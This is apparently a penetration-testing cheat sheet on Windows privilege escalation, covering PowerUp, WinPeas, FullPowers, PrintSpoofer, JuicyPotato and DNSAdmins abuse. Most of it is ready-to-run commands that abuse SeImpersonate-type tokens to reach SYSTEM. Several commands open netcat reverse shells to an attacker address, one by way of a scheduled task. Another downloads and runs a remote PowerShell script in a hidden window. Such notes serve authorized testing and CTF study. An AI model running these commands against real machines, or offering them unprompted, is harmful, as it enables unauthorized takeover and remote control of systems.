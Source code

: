 ### Privilege Escalation

#### PowerUp

```
Invoke-AllChecks
```

#### WinPeas
```
.\winpeas.exe cmd
```

#### FullPowers
Abuse some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` in order to obtain `SeAssignPrimaryToken` and `SeImpersonatePrivilege` tokens.
```
.\fullpw.exe -c ".\nc.exe 10.10.10.150 443 -e powershell" -z
```
Powershell way:
```
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeShutdownPrivilege", "SeUndockPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\Windows\Temp\nc64.exe 10.10.10.150 443 -e powershell`""
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask" -Principal $TaskPrincipal
Start-ScheduledTask -TaskName "SomeTask"
```

#### PrintSpoofer
Escalate to SYSTEM.
The token `SeImpersonatePrivilege` is needed to escalate privileges.
```
.\pspoof.exe -c "C:\windows\temp\custom\nc.exe 10.10.10.150 443 -e powershell"
```

#### Potatoes
Like PrintSpoofer, the token `SeImpersonatePrivilege` is abused to escalate privileges.
```
# Using a CLSID, C:\tmp\root.bat contains a reverse shell
.\juicy.exe -t * -p C:\tmp\root.bat -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -l 9002

# Fileless reverse shell
.\juicy.exe -l 12345 -p C:\Window\System32\cmd.exe -t * -a "/c powershell.exe -nop -w hidden -executionpolicy bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.150/nishang.ps1')"
```
CLSID can be obtain [here](http://ohpe.it/juicy-potato/CLSID/).

#### DNS Admin Abuse
If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work.
